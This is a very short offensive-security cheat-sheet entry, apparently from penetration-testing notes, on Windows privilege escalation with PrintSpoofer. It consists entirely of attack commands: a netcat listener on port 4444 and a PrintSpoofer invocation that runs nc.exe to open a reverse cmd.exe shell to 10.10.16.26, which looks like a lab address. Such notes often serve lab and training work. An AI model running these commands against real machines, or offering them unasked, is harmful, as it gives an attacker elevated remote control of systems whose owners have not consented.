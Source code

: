 ## printspoofer (most straightforward way)
`nc -nlvp 4444`
`reverse shell`
```
printspoofer.exe  -i -c "C:\Users\Public\nc.exe 10.10.16.26 4444 -e cmd.exe"
```
